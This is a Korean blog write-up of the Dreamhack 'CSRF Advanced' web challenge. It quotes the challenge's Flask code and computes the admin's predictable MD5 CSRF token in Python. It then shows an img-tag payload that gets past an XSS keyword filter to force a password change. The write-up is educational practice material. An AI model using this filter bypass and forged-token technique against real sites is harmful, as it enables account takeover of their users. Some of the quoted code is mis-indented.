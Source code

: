 ```yaml
---
layout: post
published : false  # 글 비공개 설정
title: "[드림핵][Lv.1] CSRF Advanced 문제 풀이"
date:   2025-07-16 13:00:00 +0900
categories: [Security]
tags: [wargame, web, csrf]
---
```


## 1. 개요 (Overview)

- **플랫폼 (Platform)**: 드림핵
- **문제 이름 (Challenge)**: CSRF Advanced
- **분야 (Category)**: 웹해킹
- **문제 링크 (URL)**: [드림핵 워게임](https://dreamhack.io/wargame/challenges/442)

<br>

---

## 2. 문제 분석 (Problem Analysis)

```python

# Xss 필터
xss_filter = ["frame", "script", "on"]

#세션 토큰 MD5 암호처리
token_storage[session_id] = md5((username + request.remote_addr).encode()).hexdigest()

# 비밀번호 변경
@app.route("/change_password")

def change_password():

	session_id = request.cookies.get('sessionid', None)

	try:
		username = session_storage[session_id]
		csrf_token = token_storage[session_id]

	except KeyError:
		return render_template('index.html', text='please login')
	pw = request.args.get("pw", None)
	if pw == None:
		return render_template('change_password.html', csrf_token=csrf_token)

		else:
			if csrf_token != request.args.get("csrftoken", ""):
				return '<script>alert("wrong csrf token");history.go(-1);</script>'
			users[username] = pw
				return '<script>alert("Done");history.go(-1);</script>'


# token_storage[session_id] = md5((username + request.remote_addr).encode()).hexdigest()

# admin의 경우
username = 'admin'
remote_addr = '127.0.0.1'

# admin의 CSRF 토큰 값
csrf_token = md5(('admin' + '127.0.0.1').encode()).hexdigest()
```

### 1) 문제 해설
- 이 문제의 핵심은 CSRF 취약점을 이용해 admin의 비밀번호를 변경하는 것이 목표다.


#### 1-1) `request.remote_addr`와 CSRF 토큰의 이해
- `request.remote_addr` 란?
	- Flask에서 이 값은 서버의 요청을 보낸 클라이언트으 IP 주소를 의미
	- 이 문제에서 admin 봇(read_url)를 보면 이 봇이 admin의 행동을 흉내 내면서
	  웹 애플리케이션과 동일한 한경(서버) 내에서 실행된다.
	- 결론적으로 admin의 request.remote_addr 값은 항상 127.0.0.1 이다.


#### 1-2) 취약점 연결
- 우리는 일단 /flag 페이지에서 param 값을 POST 방식을 전송해야 한다.
- 서버는 check_csrf 함수를 호출하고, 이 함수는 read_uirl 함수를 실행하게 된다. 
- admin은 우리가 보낸 param 값이 담긴 페이로드의 URL에 접속하고, 이 때 /vuln 페이지에 XSS 취약점이 존재하게 된다. 
- 아무리 XSS 필터링을 하더라도, 우회가 가능하기 때문이다.
- 우리는 XSS 이용해서 admin의 브라우저가 CSRF 공격을 수행하도록 만들어야 한다.


#### 1-3) 페이로드 작성
- 먼저 /flag 페이제 param 값이  POST 방식의 페이로드를 집어넣어, admin이 페이로드의 URL에 접속하게 해야 한다.
- 이 때 xss 필터링을 우회해야 하게 때문에
- script, on, fream 등은 사용하면 안된다.
- 그래서 우리는 img 태그를 활용해서 페이로드를 작성 할 것이다.

~~~python
<img src="/change_password?pw=pwned&csrftoken=[여기다가_계산한_토큰값]">
~~~

- 일단 페이로드 구상은 했다.
- 이제는 CSRF 토큰을 계산해야 한다.
- 위에 MD5(admin+127.0.0.1) 했다는걸 우리는 소스코드를 통해 확인 했다.
- 이제 CSRF 토큰을 계산해야 한다. 이 방법은 파이썬 코드를 활용해 계산을 해보았다.

~~~python
from hashlib import md5

admin_token = md5(b'admin127.0.0.1').hexdigest()
print(admin_token) 
# 출력 결과: 7505b9c72ab4aa94b1a4ed7b207b67fb

~~~

- 이제 확인된 CSRF 토큰값을 넣어서 /flag 페이지의 입력 폼에 넣어보고, /login 페이지에 접속

~~~python
<img src="/change_password?pw=pwned&csrftoken=7505b9c72ab4aa94b1a4ed7b207b67fb">
~~~

- 아이디 : admin
- 비번 : pwned
- 입력하게 되면 flag 값을 확인 할 수 있을 것이다.

---
